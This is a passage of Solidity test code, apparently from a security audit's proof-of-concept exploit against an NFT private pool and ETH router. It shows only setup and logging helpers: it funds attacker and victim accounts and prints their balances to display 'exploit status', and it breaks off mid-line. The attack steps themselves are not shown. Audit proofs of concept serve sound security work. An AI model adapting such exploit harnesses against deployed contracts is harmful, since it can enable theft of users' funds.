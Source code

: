 ```solidity
        vm.prank(owner);
        nft.transferFrom(owner, address(privatePool), _targetTokenId);
        assertEq(nft.ownerOf(_targetTokenId), address(privatePool));
    }

    /**
     * @notice Funds ETH to the accounts that will need native tokens for this test case.
     */
    function _fundEth() internal {
        vm.deal(address(privatePool), VIRTUAL_BASE_TOKEN_RESERVES);
        vm.deal(attacker, 100e18);
        vm.deal(victim, 100e18);
    }

    /**
     * @notice Logs the current state to show the exploit status in the terminal.
     */
    function _logState(string memory state) internal view {
        console.log("");
        console.log("============================================");
        console.log(state);
        console.log("============================================");
        console.log(
            string.concat(
                " | Attacker balance:            ",
                string.concat(
                    Strings.toString(attacker.balance / 1e18),
                    ".",
                    Strings.toString((attacker.balance % 1e18) / 1e15)
                ),
                " ETH"
            )
        );
        console.log(
            string.concat(
                " | Victim balance:              ",
                string.concat(
                    Strings.toString(address(victim).balance / 1e18),
                    ".",
                    Strings.toString((address(victim).balance % 1e18) / 1e15)
                ),
                " ETH"
            )
        );
        console.log(
            string.concat(
                " | Router balance:              ",
                string.concat(
                    Strings.toString(address(ethRouter).balance / 1e18),
                    ".",
                    Strings.toString((address(ethRouter).balance % 1e18) / 1e15)
                ),
                " ETH"
            )
        );
        console.log(
            string.concat(
                " | Pool balance:                ",
                string.concat(
                    Strings.toString(address(privatePool).balance / 1e18),
                    ".",
                    Strings.toString(
                        (address(privatePool).balance % 1e18) / 1e15
```